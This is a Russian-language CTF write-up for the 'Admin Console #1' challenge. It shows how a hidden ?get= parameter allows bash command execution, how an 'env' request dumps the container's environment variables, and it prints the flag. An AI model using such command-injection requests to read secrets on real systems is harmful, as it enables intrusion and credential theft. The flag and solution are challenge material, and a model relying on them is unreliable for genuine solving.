 # Admin Console \#1

Сервис представляет из себя примитивную веб-страничку с тектовым полем и приглашением ввести команду. Но при этом нет ни одного варианта куда ее вводить

Необходимо было пройтись любым автоматическим сканером на поиск путей и обнаружить, что по адресу https://admin.vrnctf.ru/?get={command} можно исполнять bash команды на сервисе  

Выполнить https://admin.vrnctf.ru/?get=env и получить список всех переменных окружения
```bash
KUBERNETES_PORT=tcp://10.96.128.1:443
KUBERNETES_SERVICE_PORT=443
HOSTNAME=admin-console-66dd88775f-mhbkz
PYTHON_PIP_VERSION=22.0.4
HOME=/home/webadmin
GPG_KEY=E3FF2839C048B25C084DEBE9B26995E310250568
ADMIN_CONSOLE_PORT_5000_TCP_ADDR=10.96.250.184
WERKZEUG_SERVER_FD=4
ADMIN_CONSOLE_PORT_5000_TCP_PORT=5000
ADMIN_CONSOLE_PORT_5000_TCP_PROTO=tcp
ADMIN_CONSOLE_SERVICE_PORT_HTTP=5000
PYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/d5cb0afaf23b8520f1bbcfed521017b4a95f5c01/public/get-pip.py
WERKZEUG_RUN_MAIN=true
KUBERNETES_PORT_443_TCP_ADDR=10.96.128.1
PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
ADMIN_CONSOLE_SERVICE_HOST=10.96.250.184
KUBERNETES_PORT_443_TCP_PORT=443
KUBERNETES_PORT_443_TCP_PROTO=tcp
ADMIN_CONSOLE_PORT_5000_TCP=tcp://10.96.250.184:5000
LANG=C.UTF-8
PYTHON_VERSION=3.9.16
PYTHON_SETUPTOOLS_VERSION=58.1.0
ADMIN_CONSOLE_SERVICE_PORT=5000
ADMIN_CONSOLE_PORT=tcp://10.96.250.184:5000
KUBERNETES_PORT_443_TCP=tcp://10.96.128.1:443
KUBERNETES_SERVICE_PORT_HTTPS=443
KUBERNETES_SERVICE_HOST=10.96.128.1
PWD=/usr/src/app
PYTHON_GET_PIP_SHA256=394be00f13fa1b9aaa47e911bdb59a09c3b2986472130f30aa0bfaf7f3980637
FLAG=vrnctf{000h_3nv_m4573r_53mp44441}
```

Одна из переменных - флаг
